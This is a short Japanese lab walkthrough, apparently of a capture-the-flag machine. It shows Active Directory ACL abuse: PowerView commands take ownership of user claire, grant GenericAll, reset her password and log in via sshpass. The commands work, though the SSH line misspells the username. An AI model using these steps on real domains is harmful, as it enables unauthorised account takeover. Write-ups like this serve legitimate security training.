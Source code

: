## tom -> claire

tomは**WriteOwner**の権限をclaireに対して持ってる。

![tom_priv](https://user-images.githubusercontent.com/85237728/149606075-736fe964-aea7-4bd0-a42d-a7ab5e606799.png)

claireのオーナーをtomに設定：

```
PS C:\Users\tom> Set-DomainObjectOwner -Identity claire -OwnerIdentity tom
```

tomに、claireのことをGenericAllできるように権限を与える：

```
PS C:\Users\tom> Add-DomainObjectAcl -PrincipalIdentity tom -TargetIdentity claire -Rights All
```

これでtomはclaireのパスワードを再設定できる：

```
PS C:\Users\tom> $UserPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
PS C:\Users\tom> Set-DomainUserPassword -Identity claire -AccountPassword $UserPassword
```

このclaireのクリデンシャルでclaireにssh接続：

```
┌──(kali㉿kali)-[~]
└─$ sshpass -p 'Password123!' ssh cliare@10.10.10.77
```

（`sshpass`は`sudo apt install sshpass`でダウンロード可能）
